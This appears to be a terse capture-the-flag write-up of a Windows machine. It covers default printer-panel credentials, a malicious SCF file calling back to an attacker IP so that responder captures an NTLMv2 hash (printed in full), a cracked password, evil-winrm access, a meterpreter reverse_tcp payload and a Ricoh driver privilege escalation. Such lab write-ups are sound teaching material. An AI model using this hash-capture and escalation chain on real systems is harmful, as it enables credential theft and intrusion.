





Web page requires a login, and admin:admin works and it looks like we can upload firmware to a printer.
We create a fsociety.scf which essentially just calls back to our machine and allows responder to capture a hash
[Shell] Command=2 IconFile=\\10.10.14.6\evil.exe,3
responder -I tun0

tony::DRIVER:2e0cca7ea9ef169e:74A34525E71B7E90A9D18D9CA7552518:010100000000000000C2E5F97025DA01A92F36F76C84CDF00000000002000800470031005600580001001E00570049004E002D00380032004A00570049004D0046004D00350054005A0004003400570049004E002D00380032004A00570049004D0046004D00350054005A002E0047003100560058002E004C004F00430041004C000300140047003100560058002E004C004F00430041004C000500140047003100560058002E004C004F00430041004C000700080000C2E5F97025DA010600040002000000080030003000000000000000000000000020000081EAAEC3DC15EDB951A66E2CF3C549C463AABE2FB76FE4E09CB52423AD86D5310A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0032003000000000000000000000000000

tony:liltony
we can then use evil-winrm to get onto the machine
Winpeas
LocalAccountTokenFilterPolicy set to 1
C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
1 exploit/windows/local/bypassuac_eventvwr Yes The target appears to be vulnerable.2 exploit/windows/local/bypassuac_fodhelper Yes The target appears to be vulnerable.3 exploit/windows/local/bypassuac_sluihijack Yes The target appears to be vulnerable.4 exploit/windows/local/cve_2020_1048_printerdemon Yes The target appears to be vulnerable.5 exploit/windows/local/cve_2020_1337_printerdemon Yes The target appears to be vulnerable.
6 exploit/windows/local/ricoh_driver_privesc Yes The target appears to be vulnerable. Ricoh driver directory has full permissions7 exploit/windows/local/tokenmagic Yes The target appears to be vulnerable.
set payload windows/x64/meterpreter/reverse_tcp
Folder: C:\Users\All Users\MySQL\MySQL Server 5.5\data\mysqlFolder: C:\Program Files\MySQL
In the powershell history we see something odd

Looking up the printer and version we can see there is a local priv esc exploit and a module in metasploit
exploit(windows/local/ricoh_driver_privesc)
I spent multiple hours trying everything I could manually and in metasploit and eventually looked at the walkthrough
Migrating our process to explorer.exe fixes the issue

We run the exploit and we are root
